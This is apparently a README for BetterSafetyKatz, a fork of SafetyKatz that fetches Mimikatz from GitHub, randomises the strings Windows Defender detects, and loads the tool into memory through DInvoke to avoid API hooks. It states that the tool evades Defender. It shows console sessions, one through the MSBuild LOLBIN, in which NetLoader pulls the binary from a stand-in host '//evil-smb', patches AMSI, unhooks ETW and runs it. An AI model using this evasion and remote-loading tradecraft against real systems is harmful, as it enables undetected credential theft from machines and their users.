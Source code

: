 # BetterSafetyKatz?

This modified fork of SafetyKatz dynamically fetches the latest pre-compiled release of Mimikatz directly from the gentilkiwi GitHub repo, 
runtime patching on detected signatures and uses SharpSploit DInvoke to get it into memory.

1. Gets the URL for the latest ZIP / PreCompiled Mimikatz binary directly from GitHub Repo
2. Unzipped in memory, turned into HEX. Then strings/signatures detected by Windows Defender are replaced with random strings of the same size 
    (Used https://github.com/matterpreter/DefenderCheck to gather signatures detected)
3. PE-Loaded into mem using SharpSploit 1.6 DInvoke, bypassing API hooking.(https://thewover.github.io/Dynamic-Invoke/)

Stolen from @harmj0y, @TheRealWover, @cobbr_io and @gentilkiwi, repurposed by @Flangvik and @Mrtn9

[@harmj0y](https://twitter.com/harmj0y) is the primary author of the port that this repo is forked from.

BetterSafetyKatz is licensed under the BSD 3-Clause license.

## Detected?

BetterSafetyKatz is NOT (21.06.2020) currently detected by windows defender, when that happens, BetterSafetyKatz can be deployed using [NetLoader](https://github.com/Flangvik/NetLoader), this will keep bypassing common AV solutions such as Windows Defender.

	PS D:\Projects\NetLoader> .\NetLoader.exe --path //evil-smb/bins/BetterSafetyKatz.exe --args coffee
	[!] ~Flangvik , ~Arno0x #NetLoader
	[+] Successfully patched AMSI!
	[+] Successfully unhooked ETW!
	[+] URL/PATH : //evil-smb/bins/BetterSafetyKatz.exe
	[+] Arguments : coffee
	[+] Stolen from @harmj0y, @TheRealWover, @cobbr_io and @gentilkiwi, repurposed by @Flangvik and @Mrtn9
	[+] Contacting repo -> 2.2.0-20200519/mimikatz_trunk.zip
	[+] Randomizing strings in memory
	[+] Suicide burn before CreateThread!

	  .#####.   022PO6WM 2.2.0 (x64) #19041 May 19 2020 00:48:59
	 .## ^ ##.  "2HREDZLQ6LC4KWE48WS" - (J888K)
	 ## / \ ##  /*** SX6HATY8UCZTFP `3I6B0MYQ03` ( 66OC8VHW@3I6B0MYQ03.com )
	 ## \ / ##       > http://blog.3I6B0MYQ03.com/022PO6WM
	 '## v ##'       KVY3O5BG9LH90CH             ( EWGZ4I5Z22719E0QZJTNFIJF )
	  '#####'        > VOIN6NBQ5J7P55TZBTT4H / WXFFZUHZ5JPERL93VZ3VC1W   ***/

	022PO6WM # coffee

		( (
		 ) )
	  .______.
	  |      |]
	  \      /
	   `----'

	022PO6WM #
	
Or via the NetLoader MSBuild LOLBIN

	C:\Windows\Microsoft.NET\Framework64\v4.0.30319\MSBuild.exe NetLoader.xml
	[!] ~Flangvik , ~Arno0x #NetLoader
	[?] Input X in any field to exit!
	[?] Is all input base64 encoded ? y/n -> n
	[?] Input path or url -> //evil-smb/bins/BetterSafetyKatz.exe
	[?] Is the payload data XOR encrypted ? y/n -> n
	[?] Input payload args (optional) -> coffee
	[+] Successfully patched AMSI!
	[+] Successfully unhooked ETW!
	[+] URL/PATH : //evil-smb/bins/BetterSafetyKatz.exe
	[+] Arguments : coffee
	[+] Stolen from @harmj0y, @TheRealWover, @cobbr_io and @gentilkiwi, repurposed by @Flangvik and @Mrtn9
	[+] Contacting repo -> 2.2.0-20200519/mimikatz_trunk.zip
	[+] Randomizing strings in memory
	[+] Suicide burn before CreateThread!

	  .#####.   68ZIE9AI 2.2.0 (x64) #19041 May 19 2020 00:48:59
	 .## ^ ##.  "I45FONZV6HINDTWWCMW" - (HVTPW)
	 ## / \ ##  /*** F9FCR04M16WWWI `7SG36P16CR` ( GKMPJ36E@7SG36P16CR.com )
	 ## \ / ##       > http://blog.7SG36P16CR.com/68ZIE9AI
	 '## v ##'       FI7NFZ4XC3AJPVJ             ( JUEZ6AM590TQM1Q7NX6675W0 )
	  '#####'        > 8GPZN7NSKR7J2QHBC8U2I / Y14PE2OPZ62A7LF9UP91WYX   ***/

	68ZIE9AI #
	

